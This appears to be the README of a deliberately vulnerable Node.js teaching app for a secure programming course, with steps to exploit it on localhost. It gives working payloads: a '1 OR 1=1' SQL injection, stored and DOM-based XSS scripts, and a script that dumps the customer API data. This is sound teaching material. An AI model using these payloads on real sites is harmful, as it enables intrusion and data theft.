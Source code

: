 # Node app with OWASP vulnerabilities, part of Secure Application Programming module

• SQL Injection.
• XSS Reflected Dom based and stored.
• Sensitive Data Exposure.

## Prerequisites

Node.js (and npm package manager)

## Run

1. Install npm packages

```
npm install
```

2. Run node

```
node index.js 
OR
mpm run dev
```

3. Open your browser and navigate to <http://localhost:3000>

4. Generate new customers with any random data.

5. SQL Injection

Using inspect element, Inject the following into any of the delete buttons:

```
1 OR 1=1
```

6. Stored XSS:
Insert the below in any of the text fields when adding a new customer:

```
<script>alert('XSS')</script>
```

7. DOM XSS:
Use the context within the URI to run any script.

```
?context=<script>alert("LEAVE THIS PAGE! YOU ARE BEING HACKED!");</script>
```

<http://localhost:3000/customers?context=<script>alert("LEAVE THIS PAGE! YOU ARE BEING HACKED!");</script>>

8. Sensitive data exposure:
Similar to the step above, the following script can be used in the context.

```
<script>fetch('/api/customers').then(r=>r.json()).then(d=>document.write(JSON.stringify(d)));</script>
```
